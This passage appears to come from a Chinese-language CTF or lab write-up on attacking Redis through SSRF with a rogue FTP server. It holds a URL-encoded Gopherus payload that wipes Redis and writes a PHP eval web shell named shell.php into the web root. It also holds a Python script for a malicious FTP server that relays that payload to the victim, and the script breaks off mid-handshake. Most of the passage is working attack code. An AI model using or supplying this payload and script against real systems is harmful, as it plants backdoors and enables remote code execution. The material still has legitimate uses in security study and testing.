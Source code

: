 生成的 payload 只取 `_` 后面的数据部分：

```python
%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2435%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%22whoami%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2420%0D%0A/var/www/html/public%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
```

然后在攻击机上搭建一个恶意的 FTP 服务，并将上面的 Payload 中的数据替换掉下面 FTP 脚本中的 Payload 的内容：

```python
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对gopherus生成的payload进行一次urldecode
payload = unquote("%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2435%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%22whoami%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2420%0D%0A/var/www/html/public%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 2333))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
```